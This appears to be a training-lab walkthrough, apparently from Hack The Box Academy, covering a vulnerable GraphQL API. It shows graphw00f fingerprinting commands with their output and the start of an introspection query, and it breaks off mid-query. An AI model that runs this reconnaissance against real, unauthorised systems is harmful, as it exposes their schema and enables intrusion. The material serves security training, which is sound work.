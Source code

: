 ### "Exploit the vulnerable GraphQL API to obtain the flag."

After spawning the target, students will proceed to clone [graphw00f](https://github.com/dolevf/graphw00f) to find and fingerprint the GraphQL endpoint on the target using the `-f` (fingerprint mode), `-d` (detect mode) and `-t` (target URL) options:

Code: shell

```shell
git clone https://github.com/dolevf/graphw00f
cd graphw00f
python3 main.py -f -d -t http://STMIP:STMPO
```

```
┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-ijv6pgu0fq]─[~]
└──╼ [★]$ git clone https://github.com/dolevf/graphw00f

Cloning into 'graphw00f'...
remote: Enumerating objects: 695, done.
remote: Counting objects: 100% (238/238), done.
remote: Compressing objects: 100% (115/115), done.
remote: Total 695 (delta 128), reused 152 (delta 115), pack-reused 457 (from 1)
Receiving objects: 100% (695/695), 561.05 KiB | 35.07 MiB/s, done.
Resolving deltas: 100% (375/375), done.

┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-ijv6pgu0fq]─[~]
└──╼ [★]$ cd graphw00f

┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-3ffingchf8]─[~/graphw00f]
└──╼ [★]$ python3 main.py -f -d -t http://94.237.53.18:33724

<SNIP>
  
[*] Checking http://94.237.53.18:33724/
[*] Checking http://94.237.53.18:33724/graphql
[!] Found GraphQL at http://94.237.53.18:33724/graphql
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
[!] Technologies: Python
[!] Homepage: https://graphene-python.org
[*] Completed.
```

Students will open Firefox and visit the `/graphql` endpoint on the target (`http://STMIP:STMPO/graphql`). Subsequently, students will perform information disclosure using introspection to obtain information about types, fields and queries supported by the backend.

Code: graphql

```graphql
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
```